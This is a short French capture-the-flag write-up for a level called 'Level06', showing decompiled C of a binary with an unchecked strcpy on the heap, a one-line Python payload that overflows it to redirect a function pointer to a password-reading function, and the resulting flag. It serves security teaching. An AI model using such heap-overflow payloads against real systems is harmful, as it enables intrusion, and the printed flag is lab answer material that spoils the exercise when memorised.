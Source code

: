 # Rapport CTF - [Level06]

### Observation :
En arrivant sur le level6 on trouve un exécutable nommé level6.\
Quand nous essayons de le lancer avec un argument le programme répond `Nope`. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048454) --------------------------------------------------------
int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}

//----- (08048468) --------------------------------------------------------
int m()
{
  return puts("Nope");
}

//----- (0804847C) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```
On peut voir une fonction `n()` qui permet de cat le mot de passe du prochain level
Le but est donc d'arriver à jump sur la fonction `n()`. \
On peut voir aussi que nous avons 2 mallocs et un `strcpy()` (pas de `n` donc pas protégé).

### Solution :
Nous devons donc arriver à écrire sur le pointeur de v4 pour pouvoir jump sur la fonction `n()`. \
Pour ce faire, on va overflow le premier malloc pour pouvoir écrire sur *v4. \
On écrit donc 72 octets random puis l'adresse de `n()` en inverser.

On fait la commande suivante pour obtenir le flag :
```sh
./level6 $(python -c "print ('a' * 72 + '\x08\x04\x84\x54'[::-1])")
```

### Resultat :
```sh
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
